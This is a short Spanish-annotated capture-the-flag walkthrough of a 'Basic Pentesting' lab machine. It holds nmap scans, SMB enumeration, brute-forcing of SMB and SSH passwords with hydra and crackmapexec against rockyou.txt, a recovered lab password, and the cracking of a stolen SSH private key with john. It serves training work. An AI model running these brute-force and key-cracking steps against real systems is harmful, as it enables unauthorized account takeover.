










# Basic Pentesting

## Enumeration

### Nmap

```bash
nmap -p- --open -sS -T4 -vvv -n -Pn 10.10.147.78 -oG allPorts
```


```bash
nmap -sC -sV -p22,80,139,445,8009,8080 10.10.147.78  -oN targeted
```



### HTTP (80, 8080)




### SMB

```bash
smbcclient -L 10.10.147.78 -N
```



```bash
smbmap -H 10.10.147.78 
```



```bash
crackmapexec smb 10.10.147.78 -u '' -p '' --shares
```





```bash
crackmapexec smb 10.10.147.78 -u 'Jan' -p /usr/share/wordlists/rockyou.txt  --shares
```



```bash
smbmap -H 10.10.147.78 -u 'Jan' -p '123456'
```


```bash
crackmapexec smb 10.10.147.78 -u 'Kay' -p /usr/share/wordlists/rockyou.txt  --shares
```



## hydra

```bash
hydra -t 16 -l jan -P /usr/share/wordlists/rockyou.txt -vV 10.10.147.78 ssh 
```


Conexión por SSH

| User | Password |
|---|---|
| jan | armando |

```bash
ssh jan@10.10.147.78
```




```bash
cat id_rsa.txt

ssh2john id_rsa.txt > decrypted.txt
```




```bash
john --wordlist=/usr/share/wordlists/rockyou.txt decrypted.txt 
```


```bash
ssh -i /home/kay/.ssh/id_rsa kay@10.10.147.78
```



